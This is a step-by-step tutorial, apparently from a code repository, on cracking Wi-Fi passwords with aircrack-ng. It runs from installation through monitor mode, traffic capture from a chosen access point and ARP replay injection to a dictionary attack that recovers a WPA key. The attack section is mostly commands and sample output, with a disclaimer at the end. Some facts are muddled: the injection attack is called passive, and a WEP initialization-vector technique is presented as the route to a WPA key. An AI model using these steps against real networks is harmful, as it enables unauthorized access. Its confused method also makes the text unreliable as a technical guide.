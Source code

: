 # Wi-Fi cracking with aircrack-ng

[Aircrack-ng](https://aircrack-ng.org/) is basically a network software suite that has been crafted to achieve the following objectives:

* packet sniffing
* attacking (replay attacks, deauthentication, fake access points...) via packet injection
* testing Wi-Fi cards and driver capabilities (capture and injection)
* cracking WEP and WPA/WPA2 Wi-Fi routers

Note that the present tutorial is not an exhaustive guide, rather it is intended to build some basic skills to test your own network's security and get familiar with the concepts.

The attack outlined below is based on a passive technique (ARP request replay attack) and it focuses on debian-based distributions assuming you have a working wireless card with drivers already patched for injection.

## Aircrack-ng installation

Aircrack-ng can be installed on a debian-based operative system by compiling the source code (for more details you can visit the [official website](https://aircrack-ng.org/)).

### Installing required and optional dependencies

Below you can find instructions for installing the basic requirements to build aircrack-ng for Debian-based operative systems.

```
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

Get the latest copy of aircrack-ng:

```
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
```

### Compiling and installing

To build aircrack-ng, the Autotools build system is used.
First, `./configure` the project for building with the appropriate options:

```
$ autoreconf -i
$ ./configure --with-experimental
```

Next, compile the project with the `make` command and use the "installing" target from the additional targets listed below to complete the installation.

 * Execute all unit testing: `make check`
 * Execute all integration testing (requires root): `make integration`
 * Installing: `make install`
 * Uninstall: `make uninstall`

## Test wireless device packet injection

The purpose of this step ensures that your card successfully supports injection.
Assuming your interface name is "wlan0" (you can retrieve it typing `iwconfig` on the terminal), type the following command:

```
# aireplay-ng --test wlan0
```

The system responds:

```
18:10:59  wlan0 channel: 10
18:10:59  Trying broadcast probe requests...
18:10:59  Injection is working!
18:11:00  Found 1 AP
...
```

This confirms your card can inject packets.

## Simple sniffing and cracking

### 1. Start the wireless interface in monitor mode

The first thing to do is looking out for a potential target putting your wireless card into monitor mode using `airmon-ng`. However, it is strongly recommended to `kill` all interfering processes prior to using the aircrack-ng suite.

```
# airmon-ng check kill
Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

Then, it is possible to enable the monitor mode used to create another interface (mon0):

```
# airmon-ng start wlan0

PHY         Interface       Driver         Chipset

phy0        wlan0           ath9k          Qualcomm Atheros AR9485
                               (monitor mode enabled for [phy0]wlan0 on [phy0]mon0)
```

You will notice that "wlan0" has successfully been put into monitor mode.
Then, start `airodump-ng` to look out for networks:

```
# airodump-ng mon0
```

Locate the wireless network you want to crack, and note its BSSID and channel from the following output:

```
CH 10 ][ Elapsed: 36 s][2019-05-15 18:15
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router
...
```

Note that the top part of the output lists information about APs in range, and the bottom part lists clients connected to the corresponding APs.

### 2. Start airodump-ng to capture the initial vectors

Open another console session to capture the initial vectors generated by the target and to save the result into a file:

```
# airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0
```

where `-c 10` is the channel for the wireless network, `--bssid 08:00:BF:E6:31:2E` is the MAC address of the AP, `-w output-file` defines the output files that will contain the initialization vectors, and `mon0` is the interface name.

The system responds:

```
CH 10 ][ Elapsed: 12 s][2019-05-15 18:16
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router

BSSID              STATION            PWR  Lost  Packets  Probes
08:00:BF:E6:31:2E  00:0F:35:51:AC:22  -21     0   183782
```

After the execution of the command various files will be generated.

### 3. Start aireplay-ng in ARP request replay mode

The classic ARP request replay attack is the most effective way to generate new initialization vectors, and works very reliably. The purpose of this step is to start `aireplay-ng` in a mode which listens for ARP requests then reinjects them back to the access point.
Keep your `airodump-ng` and `aireplay-ng` running, open another terminal and run the ARP request replay attack:

```
# aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

Saving ARP requests in replay_arp-0321-191525.cap
You should also start airodump-ng to capture replies.
Read 618643 packets (got 304896 ARP requests), sent 194947 packets...
```
You can check if the packets are injected by looking at the `airodump-ng` screen.

### Run aircrack-ng to obtain the WPA key

At this point, you should be able to obtain the WPA key from the initialization vectors gathered in the previous steps. To perform this attack you need a wordlist and if the network password is not in the wordfile you will not crack the password.
Open another console session and type:

```
# aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```

where `-a2` specifies the attack mode for WPA/WPA2-PSK,  `-w wordlist.txt` refers to your own dictionary wordlist, and `output*.cap` selects all output files with `.cap` extension.

This is the output of a successful attack:

```
                        Aircrack-ng 1.5.2
[00:00:00] 192/1229 keys tested (520.04 k/s)

Time left: 0 seconds                                      15.62%

                     KEY FOUND! [ notsecure ]

Master Key     : 42 28 5E 5A 73 33 90 E9 34 CC A6 C3 B1 CE 97 CA
                 06 10 96 05 CC 13 FC 53 B0 61 5C 19 45 9A CE 63

Transient Key  : 86 D0 43 C9 AA 47 F8 03 2F 71 3F 53 D6 65 F3 F3
                 86 36 52 0F 48 1E 57 4A 10 F8 B6 A0 78 30 22 1E
                 4E 77 F0 5E 1F FC 73 69 CA 35 5B 54 4D B0 EC 1A
                 90 FE D0 B9 33 06 60 F9 33 4B CF 30 B4 A8 AE 3A

EAPOL HMAC     : 8E 52 1B 51 E8 F2 7E ED 95 F4 CF D2 C6 D0 F0 68
```

### Disclaimer

This tutorial has been made for educational purposes only, I don't promote malicious practices and I will not be responsible for any illegal activities.
